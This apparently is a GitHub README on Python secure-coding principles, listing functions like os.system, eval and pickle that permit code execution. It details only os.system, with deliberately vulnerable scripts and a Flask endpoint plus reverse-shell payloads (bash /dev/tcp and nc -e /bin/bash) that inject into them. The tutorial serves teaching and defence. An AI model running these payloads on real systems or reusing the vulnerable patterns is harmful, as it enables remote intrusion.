 # Python-Security-Principles
Fundamental concepts and principles on how Python application can be abused to gain remote code execution or be used to perform any type of unattended functionality

Python is an interpreted high-level general-purpose programming language. Python's design philosophy emphasizes code readability with its notable use of significant indentation. A lot of modern web application use python , especially when utilizing API endpoints. It is critical to secure these web application and API endpoints to ensure that the web application behaves as expected

When validating secure code , always examine the code to determine what paramter is used to accept user input , on what route is it mapped to and how the user supplied data gets processed during the web applications execution flow. Never pass input that the user has control over to a paramater that gets wrapped around a dangerous function() that could interact with the underlying OS and execute code. 

The following Python fucntions() can be abused to execute code, exfiltrate data, perform unattended functionality or bypass authentication pages

- os.system()
- eval()
- exec()
- input()
- str.format()
- Pickle()
- Jinja2/Tornado 
- PyYaml 

os.system()

Allows the Python script/program to execute shell commands on the underlying OS. Below is a basic example of how this function() can be used. The function() itself is not evil, but passing unsanitized user input to the function() could be dangerous and lead to code execution. Always ensure to pass data to os.system() that is validated, escaped and required for its intended functionality.

Basic Script - Accepts user input and saves it in the txt variable and then passes the txt variable to os.system()
```
#!/usr/bin/python

import os

txt = input("Enter Command to Execute?: ")
os.system(txt)
```
Another example of a similiar program that is not properly validated. The below code asks for a name , but passes the input to os.system(). This is a basic example of how the context of the program does not match it's functionality. 
```
#!/usr/bin/python

import os

txt = input("What is your name?: ")
os.system(txt)
```
Explioting the above code. Since the entire input variable is send to os.system(), the attacker can just provide a reverse shell one-liner instead of a valid name
```
What is your name?: bash -i >& /dev/tcp/10.10.10.10/9999 0>&1

//Replace IP
//Replace Port
```
The following code accepts user input from the public and passes it to os.system(), allowing the web application to be vulnerable to code execution

Interacting with the web app
```
curl -X POST http://10.10.10.10:5000/api?request=
curl -X POST -d "request=test" http://10.10.10.10:5000/api
```
Vulnerable Web Application
```
#!/usr/bin/python

import os
from flask import Flask, request

app = Flask(__name__)


@app.route("/api", methods=["POST"])
def hackme():
    data = os.system(request.form['request'])
    print(data)
```
Explioting the web app

Payload: nc -e /bin/bash 10.10.5.10 9999 | Can be replaced by any other form of RCE. Ensure to base64 or URL encode the payload

```
curl -x POST -d "request=nc -e /bin/bash 10.10.5.10 9999" http://10.10.10.10:5000/api
```
